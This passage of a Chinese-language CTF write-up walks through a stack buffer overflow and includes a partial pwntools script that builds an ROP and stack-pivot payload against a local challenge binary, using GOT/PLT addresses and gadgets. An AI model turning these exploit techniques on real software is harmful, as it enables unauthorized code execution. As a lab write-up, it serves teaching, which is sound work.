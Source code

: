 <img src="/upload/img/image-20220411123736535.png" alt="image-20220411123736535" style="zoom: 33%;" />
（用ida也可以看出来） 又因为返回地址一定会被存到栈里面（这时候在执行read函数之前 用gdb看一下栈 看看哪个地址里面指向的是0x4006ed)

 然后就去将read函数输入内容的地址 设置成那个栈的地址即可

```python
#coding:utf-8
from pwn import *
p=process('./a')
context(arch='amd64',os='linux',log_level='debug')
e=ELF('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
puts_plt_addr=e.plt['puts']
puts_got_addr=e.got['puts']
read_plt_addr=e.got['read']#why got here 
#call函数为跳转到某地址内所保存的地址，应该使用got表中的地址
pop_rdi_addr=0x400703
level_addr=0x400699
bss_addr=0x601080
ret_csu_addr=0x4006FA
rsi_addr=0x601118
payload1=0x60*'a'+p64(bss_addr+0x40)+p64(level_addr)#这里多加0x40的目的就是为了执行puts的时候，不影响之前的got表中的数据
p.sendafter('u want\n',payload1)
```